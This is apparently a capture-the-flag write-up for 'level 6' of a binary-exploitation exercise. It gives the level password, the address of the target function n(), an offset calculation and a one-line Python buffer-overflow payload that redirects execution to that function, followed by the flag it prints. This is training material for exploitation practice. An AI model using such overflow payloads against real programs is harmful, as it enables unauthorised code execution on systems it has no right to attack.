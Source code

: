 # Level 6
*password : d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31*

## Analyze

```
$ scp -P 4242 level6@192.168.56.108:level6 binary/
```

0x40 = 64\
`n()` address : 0x08048454

## Buffer overflow

objective : execute `n()`
- compute offset : 64 + 4 * 2 = 72

```
$ ./level6 $(python -c 'print "a" * 72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
